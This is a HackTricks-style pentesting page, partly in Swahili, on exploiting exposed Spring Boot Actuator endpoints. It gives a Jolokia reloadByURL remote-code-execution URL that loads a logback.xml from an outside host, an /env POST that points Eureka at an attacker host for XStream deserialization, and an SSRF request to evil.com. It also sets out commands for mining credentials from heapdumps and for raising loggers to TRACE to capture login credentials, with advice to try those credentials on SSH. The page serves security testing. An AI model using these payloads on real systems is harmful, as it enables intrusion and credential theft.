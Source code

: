 # Spring Actuators

{{#include ../../banners/hacktricks-training.md}}

## **Spring Auth Bypass**

<figure><img src="../../images/image (927).png" alt=""><figcaption></figcaption></figure>

**From** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)

## Exploiting Spring Boot Actuators

**Angalia chapisho la awali kutoka** [**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Mambo Muhimu:**

- Spring Boot Actuators register endpoints such as `/health`, `/trace`, `/beans`, `/env`, etc. Katika toleo 1 hadi 1.4, endpoints hizi zinaweza kupatikana bila uthibitisho. Kuanzia toleo 1.5 na baadaye, `/health` na `/info` pekee ndizo zisizo hatarishi kwa chaguo-msingi, lakini watengenezaji mara nyingi hufuta usalama huu.
- Endpoints fulani za Actuator zinaweza kufichua data nyeti au kuruhusu vitendo hatarishi:
- `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, and `/heapdump`.
- Katika Spring Boot 1.x, actuators zinajiandikisha chini ya root URL, wakati katika 2.x, ziko chini ya base path ya `/actuator/`.

### **Exploitation Techniques:**

1. **Remote Code Execution via '/jolokia'**:
- The `/jolokia` actuator endpoint exposes the Jolokia Library, ambayo inaruhusu upatikanaji wa MBeans kwa kupitia HTTP.
- The `reloadByURL` action inaweza kutumika kwa kureload configuration za logging kutoka kwenye URL ya nje, jambo ambalo linaweza kusababisha blind XXE au Remote Code Execution kupitia XML zilizotengenezwa mahsusi.
- Example exploit URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Config Modification via '/env'**:

- Ikiwa Spring Cloud Libraries zipo, endpoint ya `/env` inaruhusu mabadiliko ya properties za mazingira.
- Properties zinaweza kubadilishwa ili kutilia mtego udhaifu mbalimbali, kama vile udhaifu wa XStream deserialization katika Eureka serviceURL.
- Example exploit POST request:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```

3. **Other Useful Settings:**
- Properties kama `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, na `spring.datasource.tomcat.max-active` zinaweza kubadilishwa kwa ajili ya exploits mbalimbali, kama SQL injection au kubadilisha connection strings za database.

### **Taarifa za Ziada:**

- Orodha kamili ya actuators chaguo-msingi inapatikana [here](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
- The `/env` endpoint katika Spring Boot 2.x inatumia muundo wa JSON kwa mabadiliko ya property, lakini dhana kuu inabaki ile ile.

### **Mada Zinazohusiana:**

1.  **Env + H2 RCE**:
- Maelezo juu ya kutumia mchanganyiko wa endpoint ya `/env` na database ya H2 yanapatikana [here](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).

2.  **SSRF on Spring Boot Through Incorrect Pathname Interpretation**:
- Jinsi framework ya Spring inavyoshughulikia matrix parameters (`;`) katika pathnames za HTTP inaweza kutumika kwa Server-Side Request Forgery (SSRF).
- Example exploit request:
```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
## HeapDump secrets mining (credentials, tokens, internal URLs)

Ikiwa `/actuator/heapdump` imefunuliwa, kwa kawaida unaweza kupata snapshot kamili ya JVM heap ambayo mara nyingi ina siri zinazoishi (DB creds, API keys, Basic-Auth, internal service URLs, Spring property maps, n.k.).

- Download and quick triage:
```bash
wget http://target/actuator/heapdump -O heapdump
# Quick wins: look for HTTP auth and JDBC
strings -a heapdump | grep -nE 'Authorization: Basic|jdbc:|password=|spring\.datasource|eureka\.client'
# Decode any Basic credentials you find
printf %s 'RXhhbXBsZUJhc2U2NEhlcmU=' | base64 -d
```

- Deeper analysis with VisualVM and OQL:
- Fungua heapdump katika VisualVM, chunguza instances za `java.lang.String` au endesha OQL kutafuta siri:
```
select s.toString()
from java.lang.String s
where /Authorization: Basic|jdbc:|password=|spring\.datasource|eureka\.client|OriginTrackedMapPropertySource/i.test(s.toString())
```

- Automated extraction with JDumpSpider:
```bash
java -jar JDumpSpider-*.jar heapdump
```
Matokeo ya kawaida yenye thamani kubwa:
- Spring `DataSourceProperties` / `HikariDataSource` objects zinazoonyesha `url`, `username`, `password`.
- `OriginTrackedMapPropertySource` entries zinazoonyesha `management.endpoints.web.exposure.include`, ports za huduma, na Basic-Auth iliyojazwa ndani ya URLs (mfano, Eureka `defaultZone`).
- Vipande vya kawaida vya HTTP request/response vinavyojumuisha `Authorization: Basic ...` vilivyokamatwa ndani ya memory.

Tips:
- Tumia wordlist inayolenga Spring kugundua actuator endpoints haraka (mfano, SecLists spring-boot.txt) na hakikisha kila mara kama `/actuator/logfile`, `/actuator/httpexchanges`, `/actuator/env`, na `/actuator/configprops` pia zimefunuliwa.
- Credentials kutoka heapdump mara nyingi hufanya kazi kwa huduma za jirani na wakati mwingine kwa watumiaji wa mfumo (SSH), hivyo vijaribu kwa upana.

## Kutumia vibaya Actuator loggers/logging kushika credentials

Ikiwa `management.endpoints.web.exposure.include` inaruhusu na `/actuator/loggers` imefunuliwa, unaweza kwa nguvu kuongeza viwango vya logi kwa njia ya dynamic kuwa DEBUG/TRACE kwa packages zinazoshughulikia authentication na request processing. Ikichanganywa na logi zinazoweza kusomwa (kupitia `/actuator/logfile` au njia za logi zinazoeleweka), hii inaweza leak credentials zilizowasilishwa wakati wa login flows (mfano, Basic-Auth headers au form parameters).

- Enumerate and crank up sensitive loggers:
```bash
# List available loggers
curl -s http://target/actuator/loggers | jq .

# Enable very verbose logs for security/web stacks (adjust as needed)
curl -s -X POST http://target/actuator/loggers/org.springframework.security \
-H 'Content-Type: application/json' -d '{"configuredLevel":"TRACE"}'
curl -s -X POST http://target/actuator/loggers/org.springframework.web \
-H 'Content-Type: application/json' -d '{"configuredLevel":"TRACE"}'
curl -s -X POST http://target/actuator/loggers/org.springframework.cloud.gateway \
-H 'Content-Type: application/json' -d '{"configuredLevel":"TRACE"}'
```

- Find where logs are written and harvest:
```bash
# If exposed, read from Actuator directly
curl -s http://target/actuator/logfile | strings | grep -nE 'Authorization:|username=|password='

# Otherwise, query env/config to locate file path
curl -s http://target/actuator/env | jq '.propertySources[].properties | to_entries[] | select(.key|test("^logging\\.(file|path)"))'
```

- Trigger login/authentication traffic and parse the log for creds. Katika setups za microservice zenye gateway inayokinga auth, kuwezesha TRACE kwa packages za gateway/security mara nyingi hufanya headers na bodies za form kuwa zinazoonekana. Baadhi ya mazingira hata huunda synthetic login traffic kwa vipindi, hivyo kusanya kwa urahisi mara logging inapokuwa verbose.

Notes:
- Rudisha viwango vya logi ukimaliza: `POST /actuator/loggers/<logger>` ukiweka `{ "configuredLevel": null }`.
- Ikiwa `/actuator/httpexchanges` imefunuliwa, pia inaweza kuonyesha metadata ya maombi ya hivi karibuni ambayo inaweza kujumuisha headers zenye nyeti.

## References

- [Exploring Spring Boot Actuator Misconfigurations (Wiz)](https://www.wiz.io/blog/spring-boot-actuator-misconfigurations)
- [VisualVM](https://visualvm.github.io/)
- [JDumpSpider](https://github.com/whwlsfb/JDumpSpider)
- [0xdf – HTB Eureka (Actuator heapdump to creds, Gateway logging abuse)](https://0xdf.gitlab.io/2025/08/30/htb-eureka.html)

{{#include ../../banners/hacktricks-training.md}}
